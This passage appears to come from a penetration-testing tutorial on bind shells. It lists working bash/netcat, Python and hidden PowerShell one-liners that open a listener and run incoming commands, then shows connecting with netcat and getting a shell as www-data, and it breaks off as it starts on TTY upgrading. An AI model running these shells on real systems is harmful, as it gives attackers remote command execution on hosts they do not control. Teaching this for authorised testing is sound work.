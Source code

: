 #### Bind Shell Command

Once again, we can utilize [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md) to find a proper command to start our bind shell.

>Note: we will start a listening connection on port '1234' on the remote host, with IP '0.0.0.0' so that we can connect to it from anywhere.

The following are reliable commands we can use to start a bind shell:

	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f

	python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'

	powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();

* * * * *

#### Netcat Connection

Once we execute the bind shell command, we should have a shell waiting for us on the specified port. We can now connect to it.

We can use `netcat` to connect to that port and get a connection to the shell:

	nc 10.10.10.1 1234

```text
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, we are directly dropped into a bash session and can interact with the target system directly. Unlike a `Reverse Shell`, if we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately. However, if the bind shell command is stopped for any reason, or if the remote host is rebooted, we would still lose our access to the remote host and will have to exploit it again to gain access.

* * * * *

#### Upgrading TTY

Once we connect to a shell through Netcat, we will notice that we can only type commands or backspace, but we cannot move the text cursor left or right to edit our commands, nor can we go up and down to access the command history. To be able to do that, we will need to upgrade our TTY. This can be achieved by mapping our terminal TTY with the remote TTY.

There are multiple methods to do this. For our purposes, we will use the `python/stty` method. In our `netcat` shell, we will use the following command to use python to upgrade the type of our shell to a full TTY:
